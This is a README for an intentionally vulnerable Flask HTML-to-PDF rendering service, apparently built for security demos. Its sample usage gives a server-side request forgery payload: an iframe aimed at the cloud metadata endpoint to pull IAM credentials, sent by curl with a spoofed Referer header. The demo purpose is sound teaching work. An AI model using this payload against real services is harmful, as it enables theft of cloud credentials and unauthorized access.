 # renderHTML.py

## Summary
This is a deliberately vulnerable flask application that accepts HTML, renders it using wkhtmltopdf, and returns the PDF file.
It also checks the referer header as a token defense against abuse.  Bypassing this defense makes a better demo.

## Requirements
Python Libraries (pip install -r requirements.txt)
* flask
* pdfkit

wkhtmltopdf (must be installed at the OS level - https://wkhtmltopdf.org/downloads.html)

## Sample Usage
_Modify the string in the referer check to be the domain where you're hosting it, or just remove the check depending on your needs_

Create a test file containing the HTML:
``{"content":"<HTML><BODY>Metadata output:</BR><IFRAME src=\" http://169.254.169.254/latest/meta-data/iam/security-credentials/\" width=1000 height=1000></IFRAME></BODY></HTML>"}
``

Now use curl to send it
``curl -H "Referer: api.uuw.app" -o test.pdf --json @testfile.json http://render.uuw.app/render``
